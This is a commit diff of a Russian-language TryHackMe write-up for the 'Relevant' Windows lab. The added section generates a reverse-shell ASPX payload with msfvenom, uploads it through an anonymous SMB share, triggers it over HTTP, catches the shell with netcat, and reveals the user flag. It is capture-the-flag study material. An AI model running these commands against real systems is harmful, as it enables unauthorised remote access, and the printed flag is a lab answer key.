

Before and after one commit to 0x2d-pentest/TryHackMe, a Markdown page: Win Medium - Relevant/writeup.md, 2 parts joined by grey strips. Shown at 96% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/Win Medium - Relevant/writeup.md
+++ b/Win Medium - Relevant/writeup.md
@@ -1,7 +1,7 @@
 # TryHackMe - Win Medium - Relevant
 
 📅 Дата: 2025-07-08
-🧠 Сложность:
+🧠 Сложность: Medium
 💻 IP-адрес: 10.10.254.155
 
 ---
@@ -253,11 +253,48 @@ Bill
 
 ## ⚙️ Привилегии
 
+Создаю реверс шелл
+```
+┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - Relevant/exploits]
+└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.21.104.16 LPORT=4444 -f aspx > shell.aspx
+[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
+[-] No arch selected, selecting arch: x64 from the payload
+No encoder specified, outputting raw payload
+Payload size: 460 bytes
+Final size of aspx file: 3395 bytes
+```
 
+И загружаю через smb
+```
+┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - Relevant/exploits]
+└─$ smbclient //$ip/nt4wrksv -N
+Try "help" to get a list of possible commands.
+smb: \> put shell.aspx
+putting file shell.aspx as \shell.aspx (5.1 kb/s) (average 5.1 kb/s)
+smb: \>
+```
+
+Перехожу по `http://10.10.42.142:49663/nt4wrksv/shell.aspx`, получаю сессию и читаю флаг
+```
+┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - Relevant/exploits]
+└─$ nc -lvnp 4444
+listening on [any] 4444 ...
+connect to [10.21.104.16] from (UNKNOWN) [10.10.42.142] 49706
+Microsoft Windows [Version 10.0.14393]
+(c) 2016 Microsoft Corporation. All rights reserved.
+
+c:\windows\system32\inetsrv>whoami
+whoami
+iis apppool\defaultapppool
+
+C:\Users\Bob\Desktop>more user.txt
+more user.txt
+THM{fdk4ka34vk346ksxfr21tg789ktf45}
+```
 
 ## 🏁 Флаги
 
-- User flag:
+- User flag: THM{fdk4ka34vk346ksxfr21tg789ktf45}
 - Root flag:
 
 ---
````
